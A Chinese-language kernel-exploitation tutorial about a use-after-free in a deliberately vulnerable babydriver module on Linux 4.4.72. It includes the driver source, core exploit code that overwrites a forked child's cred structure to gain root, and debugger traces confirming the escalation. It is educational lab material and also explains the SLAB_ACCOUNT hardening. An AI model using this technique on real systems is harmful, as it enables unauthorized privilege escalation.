


# 【pwn4kernel】Kernel UAF技术分析

## 1. 测试环境

**测试版本**：Linux-4.4.72 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.4.72/01/bzImage)

笔者测试的内核版本是 `Linux (none) 4.4.72 #2 SMP Wed Dec 31 18:49:47 CST 2025 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_MEMCG`选项。开启`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_USERFAULTFD`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.4.72/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：笔者基于**CISCN2017 - babydriver** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/babydev`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2025 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on CISCN - 2017 - babydriver
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

static unsigned int major;
static struct class *babydev_class;
static struct cdev babydev_cdev;

struct babydevice_t {
	char *device_buf;
	size_t device_buf_len;
};

struct babydevice_t babydev_struct;

static int babydev_open(struct inode *inode, struct file *filp)
{
	babydev_struct.device_buf = (char *)kmalloc(0x40, GFP_KERNEL);
	babydev_struct.device_buf_len = 0x40;
	pr_info("[babydev:] Device open.\n");
	return 0;
}

static int babydev_release(struct inode *inode, struct file *filp)
{
	kfree(babydev_struct.device_buf);
	pr_info("[babydev:] Device release.\n");
	return 0;
}

static ssize_t babydev_read(struct file *filp, char __user *buf, size_t count,
			    loff_t *offset)
{
	if (!babydev_struct.device_buf) {
		return -ENOMEM;
	}

	if (babydev_struct.device_buf_len <= count) {
		return -EINVAL;
	}

	if (copy_to_user(buf, babydev_struct.device_buf, count)) {
		return -EFAULT;
	}
	return count;
}

static ssize_t babydev_write(struct file *filp, const char __user *buf,
			     size_t count, loff_t *offset)
{
	if (!babydev_struct.device_buf) {
		return -ENOMEM;
	}

	if (babydev_struct.device_buf_len <= count) {
		return -EINVAL;
	}

	if (copy_from_user(babydev_struct.device_buf, buf, count)) {
		return -EFAULT;
	}
	return count;
}

static long babydev_ioctl(struct file *file, unsigned int cmd,
			  unsigned long arg)
{
	if (cmd != 0x10001) {
		pr_err("[babydev:] defalut:arg is %ld\n", arg);
		return -EINVAL;
	}

	kfree(babydev_struct.device_buf);
	babydev_struct.device_buf = (char *)kmalloc((size_t)arg, GFP_KERNEL);
	babydev_struct.device_buf_len = arg;
	pr_info("[babydev:] alloc done\n");
	return 0;
}

struct file_operations babydev_fops = {
	.owner = THIS_MODULE,
	.open = babydev_open,
	.release = babydev_release,
	.read = babydev_read,
	.write = babydev_write,
	.unlocked_ioctl = babydev_ioctl,
};

static int __init init_babydev(void)
{
	struct device *babydev_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "babydev");
	if (error < 0) {
		pr_err("[babydev:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[babydev:] babydev major number = %d.\n", major);

	babydev_class = class_create(THIS_MODULE, "babydev_class");
	if (IS_ERR(babydev_class)) {
		pr_err("[babydev:] Error creating babydev class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(babydev_class);
	}

	cdev_init(&babydev_cdev, &babydev_fops);
	babydev_cdev.owner = THIS_MODULE;
	cdev_add(&babydev_cdev, devt, 1);
	babydev_device =
	    device_create(babydev_class, NULL, devt, NULL, "babydev");
	if (IS_ERR(babydev_device)) {
		pr_err("[babydev:] Error creating babydev device!\n");
		class_destroy(babydev_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[babydev:] babydev module loaded.\n");
	return 0;
}

static void __exit exit_babydev(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(babydev_class, MKDEV(major, 0));
	cdev_del(&babydev_cdev);
	class_destroy(babydev_class);
	pr_info("[babydev:] babydev module unloaded.\n");
}

module_init(init_babydev);
module_exit(exit_babydev);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

该驱动模块存在一个典型的释放后使用（Use-After-Free）漏洞，其根源在于一个被多个文件描述符共享的全局数据结构，其生命周期管理存在缺陷，且模块缺乏必要的同步机制，最终导致了对已释放内存的访问。

### 2-1. 核心数据结构与共享状态

驱动模块内部维护了一个关键的全局数据结构`babydev_struct`，其核心成员包括：

- `char *device_buf;`：指向一块通过`kmalloc`在内核堆上动态分配的内存区域的指针。
- `size_t device_buf_len;`：记录上述`device_buf`所指内存区域的大小。

当用户空间进程通过`open()`系统调用打开设备文件`/dev/babydev`时，对应的`babydev_open`操作会初始化这个全局的`babydev_struct`实例，包括为其`device_buf`申请初始大小的内存。**关键的设计问题在于**，无论系统内发生多少次`open`操作，所有由此产生的文件描述符（可能属于不同进程）最终都指向并操作**同一个**全局`babydev_struct`实例。这种全局共享的单实例模式，是后续产生状态混乱和竞争条件的结构基础。

### 2-2. 关键操作的行为分析

该驱动实现了`open`、`release`、`read`、`write`和`ioctl`五个基本操作，其中`release`和`ioctl`的实现是导致UAF的直接原因。

1.  **`babydev_release`操作（内存释放与状态遗留）**
    当某个文件描述符被关闭时，此函数负责执行清理工作。它会调用`kfree()`释放全局`device_buf`指针所指向的内存。然而，在释放操作之后，**该函数未能将全局的`device_buf`指针置为`NULL`，同时也未将`device_buf_len`重置为零**。这导致全局结构体中保留了一个指向已释放内存区域的“悬空指针”（Dangling Pointer），而长度字段仍记载着已无效的旧尺寸。这种不一致的状态是触发UAF的经典前提。

2.  **`babydev_ioctl`操作（内存大小的可控重构）**
    此操作提供一个命令`0x10001`，允许用户通过参数`arg`指定新缓冲区的大小。其执行流程如下：
    - a. 释放当前`device_buf`指向的内存。
    - b. 立即使用`kmalloc`，按照用户指定的`arg`大小，重新分配一块内存，并将新地址赋给`device_buf`，同时更新`device_buf_len`。
      此功能赋予了用户对`device_buf`生命周期和分配大小的**主动控制能力**，为操作堆布局提供了条件。

3.  **`babydev_read`/`babydev_write`操作（基于指针的盲目访问）**
    这两个操作是数据的读写通道，其实现完全信任并依赖全局的`device_buf`和`device_buf_len`。如果`device_buf`已成为悬空指针，对其进行读写访问将直接导致UAF，可能造成内核数据泄露、内核状态损坏或系统崩溃。

4.  **同步机制的缺失**
    所有上述操作在访问和修改全局共享的`babydev_struct`时，**均未使用任何锁（如互斥锁、自旋锁）进行保护**。这意味着多个执行流（如多个进程的线程）可以并发地对这些敏感操作进行调用，引发数据竞争，使得内核状态变得更加不确定和难以预测。

### 2-3. UAF的触发与条件演变流程

综合上述操作逻辑，触发一个可观测的UAF漏洞的典型流程如下：

1.  **产生悬空指针**：进程A打开设备，获得文件描述符fd_A，初始化了全局的`device_buf`。随后，进程B也打开该设备，获得fd_B。此时，fd_A和fd_B共享同一个有效的`device_buf`。当进程B调用`close(fd_B)`时，`babydev_release`被调用，释放了`device_buf`指向的公共内存，但全局指针未被清空。此时，进程A所持有的fd_A对应的操作接口中，`device_buf`已然变成一个悬空指针，而进程A对此并不知情。

2.  **访问悬空指针**：在步骤1的状态下，进程A通过fd_A调用`babydev_read`或`babydev_write`。驱动代码将无条件地使用这个悬空指针进行内存访问，从而触发UAF。此时的行为完全取决于该块内存被释放后的状态：若未被重用，访问可能暂时“正常”；若已被内核其他部分回收并存放了其他数据，则可能导致内核崩溃或读取到预期之外的数据。

3.  **利用`ioctl`进行堆布局影响**：`babydev_ioctl`的存在极大地丰富了UAF的触发条件和潜在影响。在产生悬空指针后，操作者可进行以下动作以影响内核堆的状态：
    - a. 通过仍然持有有效描述符的进程（如进程A）调用`ioctl(0x10001, size)`。该操作首先释放当前的`device_buf`（即悬空指针所指的旧地址，此操作为一次“释放后释放”），随后立即申请一块用户指定`size`的新内存。这使得操作者可以**主动控制**接下来被分配的`device_buf`内存块的大小。
    - b. 操作者随后可以利用其他内核接口（如系统调用`socket`、`msg_msg`等）触发内核分配特定大小的对象。通过精心选择`size`参数，使其与某个目标内核数据结构的大小一致，可以尝试让新分配的内核对象恰好占据先前被释放的`device_buf`内存区域。
    - c. 一旦上述“占位”成功，原先指向该内存区域的悬空指针（在进程A的上下文看来）就转变为指向一个活跃的内核对象。此时，再通过进程A的`babydev_write`向`device_buf`写入数据，实质上是在**修改这个无辜的内核对象的内容**；而通过`babydev_read`读取，则可能**泄露该对象的数据**。这实现了对特定内核结构体内容的非授权读写。

### 2-4. 总结

该UAF漏洞的本质是多方面设计缺陷共同作用的结果：**全局共享状态的粗粒度管理**、**资源释放后未进行状态清空**的生命周期管理漏洞、**完全缺失的并发访问控制**，以及**一个允许用户干预内核堆分配大小的高权限接口**。这些缺陷叠加，使得多个执行流能够通过竞争，使系统进入一个持有并使用悬空指针的不稳定状态，进而可能引发内存损坏、信息泄露或权限提升等严重后果。

## 3. 内核内存分配原理

Linux内核采用层次化的内存管理架构，从物理页框管理到细粒度对象分配，形成了完整的分配链。此体系结构旨在平衡性能、内存利用率和系统复杂性，为不同大小的内存请求提供最优的分配策略。原理完整分析参考[内核内存分配原理](https://binracer.github.io/2026/01/31/pwn4kernel-%E5%86%85%E6%A0%B8%E5%86%85%E5%AD%98%E5%88%86%E9%85%8D%E5%8E%9F%E7%90%86/)

## 4. 实战演练

exploit核心代码如下：

```c
int main() {
  // Open the device twice
  int fd1 = open("/dev/babydev", O_RDWR);
  int fd2 = open("/dev/babydev", O_RDWR);

  // Modify babydev_struct.device_buf_len to sizeof(struct cred)
  ioctl(fd1, 0x10001, 0xa8);

  // free fd1
  close(fd1);

  // The cred space of the newly launched process will overlap with the recently
  // released babydev_struct
  int pid = fork();
  if (pid < 0) {
    log.error("fork error!");
    exit(0);
  } else if (pid == 0) {
    // By changing fd2, modify the UID of the new process's credit, and set the
    // GID value to 0
    char zeros[0x24] = {0};
    write(fd2, zeros, 0x24);
    get_root_shell();
  } else {
    wait(NULL);
    close(fd2);
  }
  return 0;
}
```

### 4-1. 利用步骤与技术原理

本利用过程是一个经典的堆内存重用（Use-After-Free，UAF）漏洞利用实例，利用了Linux内核v4.4.72中SLUB分配器的特定行为（缓存合并）和`cred`结构体的固定分配路径。

其核心步骤和技术原理如下：

1.  **创建共享的全局内存引用**
    - **操作**：连续两次调用`open`打开`/dev/babydev`设备，获得`fd1`和`fd2`。
    - **原理**：该字符设备驱动在打开时，会在内核空间分配一个全局或静态的管理结构体（如`babydev_struct`）。多次打开可能指向同一个全局实例，通过共享的`device_buf`指针引用同一块内核堆内存。这使得`fd1`和`fd2`可以操作同一块内核内存区域。

2.  **精确控制目标内存大小**
    - **操作**：通过`fd1`调用驱动的`ioctl`命令（`0x10001`），将参数设置为`0xa8`。
    - **原理**：该`ioctl`命令通常用于设置驱动内部缓冲区的长度。这里将其设置为`0xa8`字节，与目标系统内核版本（v4.4.72）中`cred`结构体的大小精确匹配。此操作通常会导致驱动释放原有的缓冲区，并重新分配一个指定大小的新缓冲区（`kmalloc(0xa8)`）。这块新缓冲区将成为后续利用的目标。

3.  **精心制造悬空指针**
    - **操作**：关闭`fd1`。
    - **原理**：关闭`fd1`会触发驱动释放其在步骤2中分配的`0xa8`字节缓冲区。然而，由于`fd2`仍然持有对该缓冲区的引用（通过共享的全局指针），`fd2`便保存了一个指向已释放内存区域的“悬空指针”。此时，该内存块已被归还给SLUB分配器，处于“空闲”状态，可被后续的内核分配请求重新使用。

4.  **触发目标对象分配——内核`cred`结构体**
    - **操作**：调用`fork()`系统调用创建子进程。
    - **原理**：`fork()`创建新进程时，内核需要为新进程复制一份证书凭证，即分配并初始化一个`cred`结构体。这个分配是通过`kmem_cache_alloc(cred_jar, GFP_KERNEL)`在专用的`cred_jar` SLUB缓存中完成的。
    - **关键漏洞点**：在该内核版本（v4.4.72）中，`cred_jar`缓存在初始化时没有设置`SLAB_ACCOUNT`标志。这导致该专用缓存可以与通用的`kmalloc-192`缓存合并。因此，步骤3中通过`kmalloc(0xa8)`释放、属于`kmalloc-192`缓存的内存块，可以被`cred_jar`缓存的分配请求所复用。**需要说明的是，此利用的成功不依赖于特定分配器（SLAB或SLUB）的内部实现细节（如LIFO策略），而是依赖于`cred_jar`与通用`kmalloc`缓存可合并这一核心前提。** 无论分配器是SLAB还是SLUB，只要缓存合并，且能精确控制一个相同大小对象的释放与重新分配，即可实现利用。此时，`fd2`的悬空引用实际上指向了子进程的`cred`结构体。

5.  **篡改关键数据提权**
    - **操作**：在子进程上下文中，通过`fd2`向设备写入`0x24`字节的零。
    - **原理**：`write`操作通过`fd2`的悬空指针，直接修改了其指向的内存内容。由于这块内存现在是子进程的`cred`结构体，写入`0x24`字节的零，会覆盖结构体前部的多个ID字段，包括`uid`、`gid`、`euid`、`egid`等，将它们全部设置为0（即root用户的ID）。完成此操作后，子进程便拥有了root权限，随后执行的`get_root_shell()`即可获得一个root shell。

**总结与安全演进**

整个利用链巧妙地利用了三个关键点：

- 驱动设计的缺陷（全局共享缓冲区）。
- 内核对象生命周期的精确控制（UAF）。
- **特定内核版本中SLUB缓存的可合并特性**（`cred_jar`未设置`SLAB_ACCOUNT`）。在新版本内核中，`cred_init()`函数初始化`cred_jar`时会加入`SLAB_ACCOUNT`标志，将其与通用`kmalloc`缓存隔离，从而堵死了此类利用路径。这体现了内核安全机制的持续演进。

### 4-2. 从`fork()`到`cred`完整调用链

当用户态调用`fork()`时，内核为新进程分配`cred`结构体的完整路径如下图所示。该图展示了从系统调用入口到SLAB分配器的核心流程，用颜色标注了关键阶段：



**流程图颜色说明**：

- **蓝色**：系统调用入口和用户态/内核态转换阶段
- **绿色**：进程复制和cred结构体初始化阶段
- **橙色**：SLUB分配器内部操作阶段

### 4-3. 内核代码调用链详细分析

以下基于Linux内核v4.4.72版本，分析从`fork()`到`cred`分配的完整代码路径。

#### 4-3-1. 第一阶段：系统调用入口

用户态调用`fork()`触发系统调用，进入内核处理流程：

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1819
#ifdef __ARCH_WANT_SYS_FORK
SYSCALL_DEFINE0(fork)
{
#ifdef CONFIG_MMU
    return _do_fork(SIGCHLD, 0, 0, NULL, NULL, 0);
#else
    /* can not support in nommu mode */
    return -EINVAL;
#endif
}
#endif
```

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1724
long _do_fork(unsigned long clone_flags,
              unsigned long stack_start,
              unsigned long stack_size,
              int __user *parent_tidptr,
              int __user *child_tidptr,
              unsigned long tls)
{
    struct task_struct *p;
    int trace = 0;
    long nr;

    p = copy_process(clone_flags, stack_start, stack_size,
                     child_tidptr, NULL, trace, tls, NUMA_NO_NODE);

    // 唤醒新进程等后续处理
    return nr;
}
```

#### 4-3-2. 第二阶段：进程复制

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1268
static struct task_struct *copy_process(unsigned long clone_flags,
                                        unsigned long stack_start,
                                        unsigned long stack_size,
                                        int __user *child_tidptr,
                                        struct pid *pid,
                                        int trace,
                                        unsigned long tls,
                                        int node)
{
    int retval;
    struct task_struct *p;
    void *cgrp_ss_priv[CGROUP_CANFORK_COUNT] = {};

    // 复制task_struct结构
    p = dup_task_struct(current, node);
    if (!p)
        goto fork_out;

    // 复制cred结构体
    retval = copy_creds(p, clone_flags);
    if (retval < 0)
        goto bad_fork_free;

    // 其他资源复制
    return p;
}
```

#### 4-3-3. 第三阶段：cred结构体分配

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L322
int copy_creds(struct task_struct *p, unsigned long clone_flags)
{
    struct cred *new;
    int ret;

    // 如果是线程创建且无特定键环，则共享父进程的cred
    if (clone_flags & CLONE_THREAD) {
        p->real_cred = get_cred(p->cred);
        get_cred(p->cred);
        return 0;
    }

    // 准备新的cred结构体
    new = prepare_creds();
    if (!new)
        return -ENOMEM;

    p->cred = p->real_cred = get_cred(new);
    return 0;
}
```

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L243
struct cred *prepare_creds(void)
{
    struct task_struct *task = current;
    const struct cred *old;
    struct cred *new;

    // 从cred_jar缓存分配内存
    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    // 复制当前进程的cred内容
    old = task->cred;
    memcpy(new, old, sizeof(struct cred));

    // 初始化引用计数等字段
    atomic_set(&new->usage, 1);

    return new;
}
```

#### 4-3-4. 第四阶段：SLUB分配内存

`prepare_creds()`函数中的`kmem_cache_alloc(cred_jar, GFP_KERNEL)`调用SLUB分配器，从专用的`cred_jar`缓存中分配内存。`cred_jar`缓存是在系统启动时由`cred_init()`函数初始化的：

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L569
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
                                 SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
}
```

**关键点分析**：在v4.4.72内核中，`cred_jar`缓存在创建时**未设置`SLAB_ACCOUNT`标志**。`SLAB_ACCOUNT`标志用于将缓存标记为与内核安全审计（或内存控制组记账）相关，其一个重要作用是防止该专用缓存与通用的`kmalloc`缓存合并。由于缺少此标志，`cred_jar`缓存可以与相同大小的通用`kmalloc-192`缓存合并，这正是本漏洞利用能够成功的前提。在新版本内核中，此初始化已加入`SLAB_ACCOUNT`标志，从而隔离了`cred`对象的分配，使此类利用失效。

### 4-4. 内存状态变化与SLUB分配行为

下图展示了在演示代码执行过程中，内存状态的变化和SLUB分配器的行为，并特别体现了`cred_jar`与`kmalloc-192`缓存合并的关键点：



### 4-5. cred结构体内存布局分析

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/cred.h#L118
struct cred {
    atomic_t    usage;
    kuid_t      uid;        /* 真实用户ID */
    kgid_t      gid;        /* 真实组ID */
    kuid_t      suid;       /* 保存的用户ID */
    kgid_t      sgid;       /* 保存的组ID */
    kuid_t      euid;       /* 有效用户ID */
    kgid_t      egid;       /* 有效组ID */
    kuid_t      fsuid;      /* 文件系统用户ID */
    kgid_t      fsgid;      /* 文件系统组ID */
    // ... 其他权限和能力字段
};
```

在x86_64架构的v4.4.72内核中，`cred`结构体的关键权限字段偏移如下：

- `uid` (0x4)
- `gid` (0x8)
- `suid` (0xc)
- `sgid` (0x10)
- `euid` (0x14)
- `egid` (0x18)
- `fsuid` (0x1c)
- `fsgid` (0x20)

向`cred`结构体写入0x24字节的零，会将前9个权限字段（每个4字节）清零，从而将相关权限标识置零。

### 4-6. SLUB分配器与安全加固分析

Linux内核v4.4.72默认使用SLUB分配器（SLAB Allocator的下一代版本），其关键行为特征包括：

1.  **专用缓存与合并行为**：`cred`结构体通过专用的`cred_jar`缓存分配。**在v4.4.72中，由于`cred_init()`未设置`SLAB_ACCOUNT`标志，`cred_jar`缓存可以与通用的`kmalloc-192`缓存合并**，这是本漏洞利用成功的核心。缓存合并意味着从`kmalloc()`和`kmem_cache_alloc(cred_jar)`分配的同大小对象可能来自同一内存池。
2.  **缓存与空闲链表**：SLUB为每个CPU维护一个“每CPU缓存”（`kmem_cache_cpu`），以及一个共享的“部分空闲链表”（`kmem_cache_node`）。对象分配优先从快速的每CPU缓存获取，这增加了分配行为的局部性，但并未改变缓存合并带来的根本风险。
3.  **安全演进**：在新版本内核中，`cred_init()`函数已加入`SLAB_ACCOUNT`标志。该标志阻止了专用缓存与通用缓存的合并，确保了`cred`等安全敏感对象在独立的内存区域分配，有效防御了此类通过通用堆内存操纵来篡改内核敏感对象。这是针对SLUB（以及SLAB）分配器的重要加固措施。

### 4-7. 内核调试与执行流追踪验证

为了从实践层面验证前述利用链的理论分析，并直观观察内存状态的关键变化，可以在漏洞利用程序执行过程中，对内核驱动及关键函数进行动态调试与追踪。以下调试过程清晰地展现了从释放目标内存、到`cred`结构体重用、最终完成权限篡改的完整路径。

#### 4-7-1. 阶段一：制造悬空指针，确认内存释放

首先，在驱动释放内存的函数`babydev_release`处设置断点。当执行`close(fd1);`时，触发此断点。

```bash
In file: /home/bogon/workSpaces/pwn4kernel/src/UAFwithCred/drivers/binary.c:42
   40 static int babydev_release(struct inode *inode, struct file *filp)
   41 {
 ► 42         kfree(babydev_struct.device_buf);
   43         pr_info("[babydev:] Device release.\n");
   44         return 0;
   45 }
```

在执行`kfree`之前，查看驱动全局结构体`babydev_struct`的状态：

```bash
pwndbg> p/x babydev_struct
$1 = {
  device_buf = 0xffff880006a79540,
  device_buf_len = 0xa8
}
```

此时，驱动缓冲区指针`device_buf`指向地址`0xffff880006a79540`，其长度恰好为`0xa8`字节，与我们通过`ioctl`设置的大小一致。

通过`slab contains`命令查询该地址所属的SLUB缓存：

```bash
pwndbg> slab contains 0xffff880006a79540
 0xffff880006a79540 @ kmalloc-192
 slab: 0xffff880006a79000 [active, cpu 0]
 status: in-use
```

**调试分析**：验证了目标内存块（`0xffff880006a79540`）确实位于`kmalloc-192`缓存中，且状态为“正在使用”（`in-use`）。这完全符合4-1步骤2（精确控制大小）的预期。

执行`kfree`语句后，再次查询该内存块状态：

```bash
pwndbg> slab contains 0xffff880006a79540
 0xffff880006a79540 @ kmalloc-192
 slab: 0xffff880006a79000 [active, cpu 0]
 status: free
```

**调试分析**：关键内存块的状态已变为“空闲”（`free`）。这意味着`fd1`对应的缓冲区已被释放回`kmalloc-192`缓存池。然而，由于`fd2`仍然通过`babydev_struct.device_buf`这个全局指针持有该地址，一个“悬空指针”已成功制造。这对应了4-1步骤3（制造悬空引用）的完成。

#### 4-7-2. 阶段二：触发`cred`分配，验证内存重用

接下来，在`fork()`系统调用路径上的关键函数`prepare_creds`中设置断点，该函数负责为子进程分配新的`cred`结构体。当执行到`kmem_cache_alloc`调用时暂停。

```bash
In file: /home/bogon/workSpaces/linux-stable/kernel/cred.c:251
   249         validate_process_creds();
   250
 ► 251         new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
```

在分配执行前，查询即将用于接收`cred`指针的变量`new`的地址（此时尚未赋值，可能为随机值）。执行`kmem_cache_alloc`后，再次检查：

```bash
pwndbg> p/x new
$3 = 0xffff880006a79540
```

**调试分析**：这是一个决定性的验证。函数`kmem_cache_alloc`从`cred_jar`缓存返回的地址是`0xffff880006a79540`，**与阶段一中刚刚释放的驱动缓冲区地址完全相同**。这直接证明了：

1.  `fork()`确实触发了`cred`结构体的分配（4-1步骤4）。
2.  **由于`cred_jar`缓存与`kmalloc-192`缓存合并**，SLUB分配器将刚刚释放的、属于`kmalloc-192`的内存块分配给了`cred_jar`的请求。
3.  利用链成功实现了堆内存布局，子进程的`cred`结构体恰好落在了攻击者可通过`fd2`写入的悬空指针所指向的内存区域。

#### 4-7-3. 阶段三：通过悬空引用篡改`cred`，验证提权

最后，在驱动写函数`babydev_write`中设置断点，该函数会通过`copy_from_user`将用户数据复制到内核缓冲区。当子进程执行`write(fd2, zeros, 0x24);`时触发。

```bash
In file: /home/bogon/workSpaces/pwn4kernel/src/UAFwithCred/drivers/binary.c:75
   74
 ► 75         if (copy_from_user(babydev_struct.device_buf, buf, count)) {
```

在执行`copy_from_user`之前，查看驱动结构体：

```bash
pwndbg> p/x babydev_struct
$5 = {
  device_buf = 0xffff880006a79540,
  device_buf_len = 0xa8
}
```

**调试分析**：`device_buf`指针依然指向`0xffff880006a79540`。此刻，从驱动的视角看，它是在向自己的“缓冲区”写入数据；而从内核的视角看，这块内存的实际身份是**子进程的`cred`结构体**。

执行写入操作后，通过自定义调试命令`ktask`（或类似命令）检查进程的凭据状态：

```bash
pwndbg> ktask exploit
 [pid 951]task @ 0xffff880007202e00: exploit          cpu #- (uid: 1000, gid: 1000, has user pages)
 [pid 952]task @ 0xffff880007200b80: exploit          cpu #- (uid: 0, gid: 0, has user pages)
```

**调试分析**：输出显示了两个名为`exploit`的进程。

- 进程PID 951（父进程）的`uid`和`gid`均为1000（普通用户）。
- **进程PID 952（子进程）的`uid`和`gid`已变为0（root用户）**。

这最终验证了4-1步骤5（篡改关键数据）的成功：通过`fd2`的悬空指针写入的0数据，已成功将子进程`cred`结构体中的`uid`、`gid`等权限字段清零，子进程由此获得了root权限。利用链至此全部完成，攻击目标达成。

#### 4-7-4. 调试总结

本次调试追踪完整地可视化了漏洞利用链中每一个理论环节在实际系统中的具体表现：

1.  **内存状态控制**：验证了可以精确释放特定大小（`0xa8`）的`kmalloc-192`缓存块，并保留其悬空引用。
2.  **缓存合并利用**：核心发现，`cred_jar`的分配请求重用了刚释放的`kmalloc-192`内存块，为漏洞利用提供了至关重要的内存布局条件。
3.  **权限篡改结果**：直观展示了通过悬空引用写入用户态数据，直接导致了内核关键安全对象（`cred`）被篡改，并立即生效（子进程UID/GID变为0）。

调试结果与4-1节所述的利用步骤及4-4节的内存状态序列图完全吻合，从实践角度强化了对该UAF漏洞利用机制的理解，也凸显了通过`SLAB_ACCOUNT`标志隔离安全敏感缓存以防御此类攻击的必要性。

### 4-8. 技术总结

本实战演练通过分析一个具体的技术演示，深入探讨了Linux内核v4.4.72中`cred`结构体的分配路径、SLUB缓存机制及其安全影响。关键要点包括：

1.  **完整的调用链**：`fork() → SYSCALL_DEFINE0(fork) → _do_fork() → copy_process() → copy_creds() → prepare_creds() → kmem_cache_alloc(cred_jar, GFP_KERNEL)`

2.  **漏洞利用的核心条件**：
    - 存在一个可触发UAF的驱动缺陷。
    - **`cred_jar`缓存未设置`SLAB_ACCOUNT`标志，导致其与`kmalloc-192`缓存合并**，使得通过通用`kmalloc`释放的内存可被`cred`分配复用。这是利用成功的架构性前提。
    - 能精确控制相同大小内存块的释放与重新分配的时机。

3.  **技术演示逻辑与修正**：
    - 通过两次打开同一设备创建共享的内存引用。
    - 精确控制内存分配大小（0xa8）和释放时机，制造悬空指针。
    - 利用`fork()`触发`cred`结构体分配，并借助缓存合并特性实现堆布局。
    - 通过悬空指针篡改子进程`cred`，实现提权。

4.  **安全机制上下文**：
    - v4.4.72内核中`cred_jar`缓存的可合并性是此漏洞利用的关键，**这与内核使用的是SLAB还是SLUB分配器无关**，两者都存在缓存合并的配置选项。
